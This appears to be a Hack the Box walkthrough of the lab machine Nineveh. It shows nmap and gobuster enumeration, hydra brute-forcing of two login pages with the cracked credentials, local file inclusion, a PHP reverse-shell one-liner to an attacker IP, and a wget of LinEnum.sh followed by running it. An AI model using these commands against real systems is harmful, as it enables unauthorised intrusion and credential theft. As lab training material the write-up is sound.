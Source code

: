 # Hack the Box - Nineveh


## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.43 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.43
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

```CSS
▶ nmap -sC -sV -p 80,443 10.10.10.43 -oN deep.nmap

Nmap scan report for 10.10.10.43
Host is up (0.18s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/234479646-7b054e0f-a213-479e-9a80-3d63bdcbb1ef.png)

---

## HTTPS/SSL
![image](https://user-images.githubusercontent.com/83878909/234479727-ccec4c69-ee5a-4d14-b0ac-20744987d630.png)

## SSL Certificate Information
```CSS
▶ openssl s_client -connect nineveh.htb:443
```
![image](https://user-images.githubusercontent.com/83878909/234488440-5c959a74-496a-48b6-87c9-8ff1ddb0ad47.png)

---

## Content Discovery
  - Directory brute-force - `http://nineveh.htb`
```CSS
▶ gobuster dir -u nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![image](https://user-images.githubusercontent.com/83878909/234485858-a451bd36-d418-447e-924a-bdecc2cd8c61.png)
![image](https://user-images.githubusercontent.com/83878909/234485999-3f3e259c-2a1d-420a-ac1f-4a41b74b2480.png)

  - Directory brute-force - `https://nineveh.htb`
```CSS
▶ gobuster dir -u https://nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-tls-validation
```
![image](https://user-images.githubusercontent.com/83878909/234487716-3c05a713-9514-4b7e-848f-5686b58b320b.png)
![image](https://user-images.githubusercontent.com/83878909/234484978-13d104de-2e36-46c6-8f17-fbb217cf826e.png)

---

## Brute-force Credentials
  - Page: `http://nineveh.htb/department/login.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234488924-25dd7cb9-7e32-4297-a545-3f04f699c6f7.png)
```CSS
Credentials: admin:1q2w3e4r5t
```

  - Page: `https://nineveh.htb/db/index.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234490465-5b8c57b0-03c2-4385-b2cc-a8bff186fdd9.png)
```CSS
Credentials: admin:password123
```
---
  - Home: `http://nineveh.htb/department/manage.php`
![image](https://user-images.githubusercontent.com/83878909/234503125-7b01ee2d-05ab-4a4d-99c3-34203400bef2.png)

  - Notes: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234503429-75a2e5b6-f739-4093-b2c2-b137aea0dd91.png)

---

  - Dashboard: `https://nineveh.htb/db/index.php`
![image](https://user-images.githubusercontent.com/83878909/234558464-b656bd0d-0942-4420-8e46-bbfbb833705f.png)

---

## Local File Inclusion(LFI)
  - URL: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234561596-3375a5a2-0015-448b-807c-2a5fb42aca58.png)
![image](https://user-images.githubusercontent.com/83878909/234561294-8c2c1a9c-db43-4dc6-baa3-9c53d31d8287.png)
![image](https://user-images.githubusercontent.com/83878909/234562592-182e614e-0287-4ba9-b0ff-6e1f9c626744.png)

## Searchsploit
```CSS
▶ searchsploit phpLiteAdmin
```
![image](https://user-images.githubusercontent.com/83878909/234558865-27ea3b54-64e7-4c1a-8ab4-527e8278b051.png)
![image](https://user-images.githubusercontent.com/83878909/234563586-f21678b1-c036-4f66-81b4-31cf99ad8690.png)
![image](https://user-images.githubusercontent.com/83878909/234564279-94bf032a-8eec-4587-a5ca-57939c4c2cc6.png)
![image](https://user-images.githubusercontent.com/83878909/234564484-13d373a3-d688-4fd8-b547-ef36d506ad93.png)
![image](https://user-images.githubusercontent.com/83878909/234564717-f30a4d82-67af-4659-a772-c09fcdb3fffc.png)

## Exploit Local File Inclusion
![image](https://user-images.githubusercontent.com/83878909/234565248-8cece311-7f2c-4c84-b335-e9eec6a6ff82.png)
![image](https://user-images.githubusercontent.com/83878909/234565557-3f97fa6b-65ac-4368-922f-00798fd18f5f.png)


## Initial Foothold
  - Reverse Shell
```CSS
php -r '$sock=fsockopen("10.10.14.25",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![image](https://user-images.githubusercontent.com/83878909/234566958-ed5cc483-b3da-4cbd-b3f2-74a35ea013d7.png)
![image](https://user-images.githubusercontent.com/83878909/234567122-be3e8c54-0a79-4f54-b322-fa634f4d4289.png)
![image](https://user-images.githubusercontent.com/83878909/234599268-11fda74f-c812-4db5-ac75-450adb9320d4.png)

---

## Privilege Escalation
  - Upload `LinEnum.sh`.
```CSS
▶ cd /tmp
▶ wget http://10.10.14.12:5555/LinEnum.sh
▶ chmod +x LinEnum.sh
▶ ./LinEnum.sh
```

![image](https://user-images.githubusercontent.com/83878909/234602152-b1fe2633-a9bc-482a-8cb8-6d7a81accf96.png)
![image](https://user-images.githubusercontent.com/83878909/234601719-41e0eb4b-49ff-49a5-8ae4-898acc8d58cc.png)

![image](https://user-images.githubusercontent.com/83878909/234607621-64dbdecb-5d29-43ce-a0cf-0d7072cd3c55.png)

